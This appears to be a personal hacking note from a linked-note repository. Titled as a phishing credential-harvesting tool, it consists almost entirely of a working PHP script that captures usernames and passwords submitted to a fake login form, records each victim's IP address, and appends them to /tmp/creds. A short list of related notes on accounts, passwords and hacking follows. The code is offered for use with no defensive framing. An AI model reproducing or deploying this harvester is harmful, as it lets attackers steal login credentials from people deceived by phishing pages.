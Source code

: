 # php quick client phishing attack credential harvesting
```php
<?php
// Turn off all error reporting
//error_reporting(0);

function get_ip() {
    if (function_exists('apache_request_headers')) {
      $headers = apache_request_headers();
    } else {
      $headers = $_SERVER;
    }
    if (array_key_exists('X-Forwarded-For',$headers) && filter_var($headers['X-Forwarded-For'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4)) {
      $the_ip = $headers['X-Forwarded-For'];
    } elseif (array_key_exists('HTTP_X_FORWARDED_FOR',$headers) && filter_var($headers['HTTP_X_FORWARDED_FOR'],FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
      $the_ip = $headers['HTTP_X_FORWARDED_FOR'];
    } else {
      $the_ip = filter_var($_SERVER['REMOTE_ADDR'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4);
    }
    return $the_ip;
  }

$password = $_POST['PasswordForm'];
$username = $_POST['UsernameForm'];


$ip = get_ip();
$browser = $_SERVER['HTTP_USER_AGENT'];
$host = $_SERVER['HTTP_HOST'];

if ($password != '') {
  $creds = $ip . '|' . $username . '|' . $password . "\n";
}

$myfile = fopen("/tmp/creds", "a") or die("Unable to open file!");
fwrite($myfile, $creds);
fclose($myfile);
?>
```
` zet/20221003150577/README.md `

# Related

- [20221008215655](/zet/20221008215655/README.md) user account
- [20221008215530](/zet/20221008215530/README.md) username
- [20221008215325](/zet/20221008215325/README.md) password
- [20221007220451](/zet/20221007220451/README.md) hacking notes node

Tags:

    

